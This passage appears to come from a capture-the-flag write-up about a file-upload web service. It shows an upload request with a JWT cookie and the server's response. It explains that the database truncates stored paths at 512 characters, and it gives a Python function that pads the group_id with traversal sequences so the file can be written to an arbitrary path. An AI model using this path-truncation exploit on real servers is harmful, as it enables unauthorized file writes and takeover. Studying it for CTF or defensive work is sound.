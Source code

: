 ```
Cookie: jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjo5Mjg0NzY1OTMsInVzZXIiOiJhZG1pbjczMjEwMzQ3NDciLCJwYXNzIjoiYXNkIiwiZnVsbF9uYW1lIjoiV1B7UjAwdF9TbTF0aH0iLCJncm91cF9pZCI6IjkyODQ3NjU5MyIsInBlcm1pc3Npb25zIjp7InVwbG9hZCI6IjEiLCJsaXN0RmlsZXMiOiIxIiwiZGVsZXRlRmlsZXMiOiIxIiwibGlzdFVzZXJzIjoiMSIsImRvd25sb2FkIjoiMSJ9fQ.uUmYA5y7PMbl3EFMVahlT3A4hsHhi62E-Ef6zIA9BiI

-----------------------------31269189394158100819104461333
Content-Disposition: form-data; name="file"; filename="test.png"
Content-Type: image/png

[FILE DATA]

-----------------------------31269189394158100819104461333
Content-Disposition: form-data; name="group_id"

928476593
-----------------------------31269189394158100819104461333--
```

 This is the response the server gives when we upload files

```json
{
  "success": true,
  "file": {
    "id": null,
    "name": "test.png",
    "size": 46507,
    "path": "928476593/test.png",
    "user_id": 928476593,
    "group_id": "928476593"
  }
}
```

As an attacker we can control the `filename` and the `group_id` . This is how the file upload could be implemented:

```
1. Check if path(=group_id+"/"+file_name) is user writable
2. Save path in database
```

The second part is what introduces the vulnerability because of the sql mode used, if we exceed the column size in the database the path gets truncated. Here it becomes useful knowing at what character the database starts truncating, and from the previous query we know that the `CHARACTER_MAXIMUM_LENGTH` of the path column in the files table is 512.

```python
# Add this in the Challenge class
def write_file(self, path):
    name = secrets.token_hex(16)
    max = 512
    base_a = "a/../"
    back = "../../../../../.."
    pad = base_a * ((max - len(path) - len(back)) // 5 - 1)
    pad += "A" * ((max - len(path) - len(back)) % 5) + base_a

    c_path = pad + back + path
    # add writable path to bypass security check
    full_path = f"{c_path}../../../../../../../var/www/html/uploads/13455/prova"
    

    response = self.s.post(
        _(path="/api/fileupload.php"),
        files={"file": (name, open("test.png", "rb"))},
        data={"group_id": full_path},
    )
```